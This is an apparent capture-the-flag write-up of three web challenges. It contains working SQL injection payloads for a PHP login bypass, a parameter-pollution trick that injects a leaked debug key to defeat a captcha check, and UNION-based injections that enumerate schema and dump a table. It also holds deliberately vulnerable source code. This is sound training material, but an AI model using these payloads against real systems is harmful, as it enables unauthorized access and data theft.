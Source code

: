 # Web Exploits

## Sequel Fun

Easy sql injection

Relevant source code
```php
<?php
include ("config.php");
if (isset ($_GET['user']) && isset ($_GET['pass'])) {
  $user = $_GET['user'];
  $pass = $_GET['pass'];
  if (strpos ($user, '1') === false && strpos ($pass, '1') === false) {
    $conn = new mysqli ($servername, $username, $password, $dbname);
    $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT); // TO-DO: Remove elf:elf account

    if ($result === false) {
      echo "<b>Our servers have run into a query error. Please try again later.</b>";
    } else {
      if ($result->num_rows !== 0) {
        $row = mysqli_fetch_array ($result, MYSQLI_ASSOC);

        echo "<h1>You are logged in as: " . $row["user"] . "</h1><br>";

        echo "<b class='flag'>";
        if ($row ["uid"] === "0")
          echo $flag;
        else
          echo "Welcome elf!";
        echo "</b>";

      } else {
        echo "<b>Login fail.</b>";
      }
    }
  } else {
    echo "<b>I don't like the number 1 :(</b>";
  }
} else {
  echo '<form class="center">
    <h1>Santa Login:</h1>
    <label>Username:</label> <input type="text" name="user" autocomplete="off"><br>
    <label>Password:</label> <input type="password" name="pass" autocomplete="off"><br>
    <input type="submit" value="Connect">
  </form>';
}
?>
```

Set username to `' OR uid = 0 #` and whatever to password

Flag: ```X-MAS{S0_1_c4n_b3_4dmin_w1th0ut_7h3_p4ssw0rd?}```

## Roboworld
> A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
> Can you figure out what's wrong and access the secret files?
> Remote server: http://challs.xmas.htsp.ro:11000

Given file: leak.py
```py
from flask import Flask, render_template, request, session, redirect
import os
import requests
from captcha import verifyCaptchaValue

app = Flask(__name__)

@app.route('/')
def index():
    return render_template("index.html")

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('user')
    password = request.form.get('pass')
    captchaToken = request.form.get('captcha_verification_value')

    privKey = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" #redacted
    r = requests.get('http://127.0.0.1:{}/captchaVerify?captchaUserValue={}&privateKey={}'.format(str(port), captchaToken, privKey))
    #backdoored ;)))
    if username == "backd00r" and password == "catsrcool" and r.content == b'allow':
        session['logged'] = True
        return redirect('//redacted//')
    else:
        return "login failed"


@app.route('/captchaVerify')
def captchaVerify():
    #only 127.0.0.1 has access
    if request.remote_addr != "127.0.0.1":
        return "Access denied"

    token = request.args.get('captchaUserValue')
    privKey = request.args.get('privateKey')
    #TODO: remove debugging privkey for testing: 8EE86735658A9CE426EAF4E26BB0450E from captcha verification system
    if(verifyCaptchaValue(token, privKey)):
        return str("allow")
    else:
        return str("deny")
```

If you make a request to `/captchaVerify` endpoint with `privateKey=8EE86735658A9CE426EAF4E26BB0450E`, you will get `allow` regardless of `captcha value`

We need to make `/login` post endpoint call the `/captchaVerify` endpoint with our poisoned `captchaToken`

We need post body to be
```user=backd00r&pass=catsrcool&captcha_verification_value=A%26privateKey%3D8EE86735658A9CE426EAF4E26BB0450E```

which makes the login route do a request like
```
GET /captchaVerify?captchaUserValue=A&privateKey=8EE86735658A9CE426EAF4E26BB0450E&privateKey=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

When doing `privKey = request.args.get('privateKey')`
`privkey` gets set to our debug privateKey instead

Or in burp set to this params

![burp](https://i.imgur.com/Ul9WFlT.png)

Send it and u get redirected to 

![dashboard](https://i.imgur.com/B6UgUqh.png)

Open the wtf.mp4 can u get the flag reverse

Do a frame grab and manually mirror the flag or ocr or whatever method

![](https://i.imgur.com/YC7UA1G.png)

Flag: ```X-MAS{Am_1_Th3_R0bot?_0.o}```

## Execute no evil

```
!32302 0x4765726f6e696d6f or description=

!32302 0x4; or description=

!32302 0x4 UNION SELECT 1,2,3 or description=

!32302 0x41 or description like '%Cad' or description=

!32302 0x41 or description like '%Cad%' # or description=

!32302 0x4 UNION SELECT 1,2,3 from users where name =
```
> This one enumerate tables

```
!32302 0x4 UNION SELECT 1, table_schema as name ,table_name as description FROM information_schema.tables UNION SELECT 1,2,3 from users where name =  
```

> This one list columns

```
!32302 0x4 UNION SELECT 1, table_name as name, column_name as description FROM information_schema.columns WHERE table_name = 'flag' UNION SELECT 1,2,3 from users where name =
```

> This one dumps flags

```!32302 0x4 UNION SELECT 1, 2 as name, whatsthis as description FROM flag UNION SELECT 1,2,3 from users where name =
```

Flag : ```X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}```